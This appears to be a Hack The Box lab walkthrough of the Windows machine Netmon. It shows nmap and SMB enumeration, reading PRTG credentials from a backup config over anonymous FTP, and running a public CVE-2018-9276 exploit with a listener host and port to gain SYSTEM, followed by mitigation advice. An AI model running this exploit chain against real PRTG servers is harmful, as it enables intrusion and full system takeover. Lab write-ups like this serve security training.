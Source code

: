```yaml
---
title: Netmon
date: 2025-04-21
categories: [oscp, HTB]
tags: [oscp-preparation, walkthrough, HTB] 
image: netmon.png
media_subpath: /assets/img/posts/2025-04-21-netmonHTB/
---
```

## Introduction
In this walkthrough we will be solving Hack The Box Easy Windows box Netmon. Let’s start ..
## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check first 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

I have noticed MD5 hash, and with purpose not to miss anything I tried to crack but it didn’t yield anything.

## Services

### Port 21

Anonymous login is allowed and we get access to filesystem.

### Port 139/445

```bash
smbclient -L //$IP/ -N
```

![image.png](image%203.png)

Cannot access SMB.

## Web

### Port 80

**PRTG 18.1.37.13946**

Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)

I tried default credentials `prtgadmin : prtgadmin` but it didn’t work.

**Feroxbuster**

```bash
feroxbuster -u [http://$IP/](http://$ip/) -C 404,403,400 -w /usr/share/wordlists/dirb/common.txt
```

![image.png](image%204.png)

I think we should find a newly-set password inside ftp service.

I need something like configuration file so I searched for default configuration file location of PRTG NetMon and found the following `\ProgramData\Paessler\PRTG Network Monitor`

> The `ProgramData` directory in Windows is not visible by default because it is a hidden system folder. It is set to "Hidden" in its file attributes to prevent accidental modification by users, as it stores critical application data and settings shared across users.
{: .prompt-info }


![image.png](image%205.png)

There is nothing in `PRTG Configuration.dat` and `PRTG Configuration.old` I have found some base64 encoded strings but they decode to non-ascii characters.

I opened files with sublime text and searched for string `pass` and found nothing, but when I opened `"PRTG Configurat.old.bak"` just the first match showed me the password for prtgadmin user:

## Credentials

```bash
prtgadmin:PrTg@dmin2018
```

## Exploitation

I used these credentials for logging in but they seemed to not work, then I realized that this is old backup file, I saw that current config file is of date 2019, so I changed the year to 2019.

I found a vulnerability for this version of PRTG NetMon, but it was a bit weird code [ExploitDB](https://www.exploit-db.com/exploits/46527) , then I searched that exploit python code in hosted in github and found this code:

[https://github.com/A1vinSmith/CVE-2018-9276/blob/main/README.md](https://github.com/A1vinSmith/CVE-2018-9276/blob/main/README.md)

I executed it:

![image.png](image%206.png)

```bash
python3 [exploit.py](http://exploit.py/) -i $IP -p 80 --lhost 10.10.14.6 --lport 80 --user prtgadmin --password PrTg@dmin2019
```

![image.png](image%207.png)

Now we are nt authrority\system!.

## Mitigation

- **Restrict FTP Access**
    
    Disable anonymous FTP access or restrict it to specific directories with non-sensitive content. Use authentication and enforce least privilege access controls.
    
- **Secure Configuration Files**
    
    Avoid storing plaintext credentials or sensitive information in configuration files accessible to low-privilege users or services. Store them with proper permissions and encryption where possible.
    
- **Patch Vulnerable Software**
    
    Keep PRTG Network Monitor and all third-party software updated to the latest versions to address known vulnerabilities, especially those enabling RCE.
    
- **Limit Privileges of Monitoring Services**
    
    Run PRTG and similar services with minimal required privileges instead of SYSTEM-level to reduce the impact of a potential compromise.
    
- **Monitor Network and File Access**
    
    Implement logging and monitoring for suspicious file access patterns and unauthorized configuration file reads, especially from publicly accessible services like FTP.
    
- **Network Segmentation**
    
    Isolate monitoring systems like PRTG from public-facing services and use firewall rules to restrict access only to trusted hosts.
